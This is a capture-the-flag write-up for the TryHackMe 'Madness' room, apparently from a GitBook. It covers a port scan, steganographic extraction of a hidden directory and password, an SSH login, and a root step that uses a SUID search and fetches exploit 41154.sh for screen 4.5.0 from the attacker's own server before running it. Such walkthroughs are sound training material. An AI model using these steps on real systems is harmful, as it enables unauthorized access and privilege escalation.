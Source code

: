 ```yaml
---
description: https://tryhackme.com/room/madness
---
```


# Madness

### **user.txt**

```
nmap 10.10.175.147
```

![](<../../.gitbook/assets/Screenshot from 2020-09-24 10-01-35.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-24 10-03-44.png>)

```bash
wget http://10.10.175.147/thm.jpg
hexeditor thm.jpg
eog thm.jpg
# http://10.10.175.147/th1s_1s_h1dd3n/
```

![](<../../.gitbook/assets/Screenshot from 2020-09-24 10-13-09.png>)

![](../../.gitbook/assets/thm.jpg)

![](<../../.gitbook/assets/Screenshot from 2020-09-24 10-48-45.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-24 10-48-49.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-24 10-53-55.png>)

```
steghide extract -sf thm.jpg
cat hidden.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-24 11-03-05.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-24 11-06-00.png>)

```
wget https://i.imgur.com/5iW7kC8.jpg
steghide extract -sf 5iW7kC8.jpg
cat password.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-24 11-08-15.png>)

```
ssh joker@10.10.175.147 cat user.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-24 11-09-43.png>)

### **root.txt**

```bash
$ find / -type f -perm -4000 2>/dev/null
$ wget http://10.9.101.193:8000/41154.sh
$ vim 41154.sh
# :set fileformat=unix
# screen -> /bin/screen-4.5.0
# :x
$ bash 41154.sh
# cat /root/root.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-24 11-53-05.png>)

## :link: Support Material

{% embed url="https://www.exploit-db.com/exploits/41154" %}

{% embed url="https://www.cnblogs.com/zijin/p/3501912.html" %}

